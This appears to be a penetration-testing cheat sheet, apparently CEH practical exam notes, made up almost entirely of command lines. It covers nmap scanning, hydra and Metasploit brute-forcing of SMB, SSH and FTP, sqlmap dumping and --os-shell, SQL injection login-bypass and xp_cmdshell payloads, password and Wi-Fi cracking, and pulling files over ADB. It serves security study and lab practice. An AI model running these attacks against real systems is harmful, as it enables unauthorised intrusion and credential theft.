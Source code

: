 # Scanning

  
<details>
  <summary>Netdiscover</summary>]
  
## Netdiscover 
  
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
 </details> 

<details>
  <summary>Netdiscover</summary>
  
## Nmap

```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

# SMB Credentials Cracking

## SMB Cracking with Hydra

```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

## SMB Cracking with Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
# Bruteforce SSH, TELNET, FTP  

## SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
## FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt
```

# Vulnerability Scanning 

##  Nessus
```console
Nessus runs on https[:]//localhost[:]8834
```

##  nikto -h 
```console

```
# Hidden text

## Snow

```console
snow -C -p "magic" readme2.txt
```

## steghide 
```console
```

# WIRESHARK

```console
To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21
```

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

# SQL 

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

# PASSWORD CRACKING 

## john

```console
john --single --format=md5crypt crack.txt
```

# WIFI ENCYRPTION CRACKING 
```console
aircrack-ng -w rockyou.txt capture-01.cap
```
# VERACRYPT 


# CUSTOM WORDLIST 

# MOBILE 

## ADB
```console
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

== resources ==

* https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
* https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

